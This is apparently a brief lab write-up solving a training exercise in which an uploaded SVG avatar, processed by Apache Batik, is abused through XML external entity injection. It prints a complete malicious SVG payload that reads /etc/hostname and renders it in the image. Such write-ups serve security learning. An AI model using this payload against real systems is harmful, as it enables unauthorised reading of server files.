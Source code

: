 *This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.*

Decided to post a comment. I created the following malicious `exploit.svg` file:
```exploit.svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
Uploaded the picture along with the comment:
![Screenshot 2024-05-28 at 3.37.16 PM](images/Screenshot%202024-05-28%20at%203.37.16%20PM.png)
I checked the comment after it was submitted. This is seen from the avatar picture:
![Screenshot 2024-05-28 at 3.39.43 PM](images/Screenshot%202024-05-28%20at%203.39.43%20PM.png)
Submitted this to solve the lab.

